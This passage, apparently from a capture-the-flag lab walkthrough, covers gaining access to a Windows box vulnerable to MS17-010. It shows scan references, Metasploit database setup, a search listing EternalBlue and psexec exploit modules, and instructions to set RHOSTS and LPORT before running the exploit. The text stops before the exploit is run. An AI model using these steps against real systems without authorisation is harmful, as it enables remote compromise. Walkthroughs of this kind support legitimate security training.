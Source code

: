 ```bash
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

## GAIN ACCESS

1. Start Metasploit. One can doing it by simply _msfconsole_ command. But there is a better way to load the _msfdb_ first to have faster access. Metasploit is a great tool. Use it like any other. Doesn't make you a script kiddie :)

**Output**

```bash
$ sudo msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
$ sudo msfdb run
[i] Database already started
```

2. We use the _eternalblue_ one but actually the _psexec_ is the **most stable** version of the exploit. It should be used in normal scenarios. 

**Output**

```bash
msf5 > search ms17-010

Matching Modules
================

#  Name                                      Disclosure Date  Rank     Check  Description
-  ----                                      ---------------  ----     -----  -----------
0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

3. _RHOSTS_ is the only flag required and not set. One can make additional chages to flags like _LHOST_ and _PAYLOAD_. We set RHOST to $BOX_IP and run the exoplit. I also set 	my _LPORT_ to 9999. 
